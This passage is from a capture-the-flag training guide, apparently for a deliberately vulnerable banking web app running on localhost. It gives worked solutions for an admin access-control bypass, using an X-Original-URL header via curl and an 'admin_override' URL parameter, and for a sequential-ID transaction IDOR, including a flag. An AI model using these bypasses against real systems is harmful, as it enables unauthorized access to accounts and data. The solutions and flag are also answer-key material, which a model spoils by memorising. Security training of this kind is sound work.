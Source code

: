**Solutions:**

**HTTP Response Code:**  
You receive a `403 Forbidden` when accessing `/admin.php` as a regular user.

**HTTP Header Bypass:**  
- Use the `X-Original-URL` header:
    ```
    GET / HTTP/1.1
    Host: localhost:8080
    X-Original-URL: /admin.php
    ```
- Or with curl:  
    `curl -H "X-Original-URL: /admin.php" http://localhost:8080/`

**URL Parameter Bypass:**  
Try `admin.php?admin_override=true` to bypass the simple authorization check.

**Administrative Functions Available:**  
- View all user accounts and details
- Access system statistics
- User management capabilities

**Flag:**  
`FLAG{v3rt1c4l_4cc3ss_c0ntr0l_byp4ss3d}`

---

## Challenge 3: Transaction IDOR Vulnerability
**Difficulty:** ⭐⭐☆☆☆ (Beginner-Intermediate)

**Scenario:**  
The banking system allows users to view transaction details, but the implementation may have flaws.

**Questions to Answer:**
- How are transaction IDs structured in the application?
- Can you view transactions that don't belong to your account?
- What happens when you try sequential transaction IDs?
- Are there any hidden or sensitive transactions you can discover?

**Solutions:**

**Transaction ID Structure:**  
Sequential numeric IDs starting from 12338.

**Viewing Others' Transactions:**  
Navigate to `transactions.php?id=12340` to see a transaction not belonging to your account.

**Sequential ID Testing:**  
Try these transaction IDs:
- `transactions.php?id=12338` (admin transaction)
- `transactions.php?id=12339` (regular transaction)
- `transactions.php?id=12340` (contains flag)
- `transactions.php?id=12341` (user transaction)
- `transactions.php?id=12342` (another transaction)
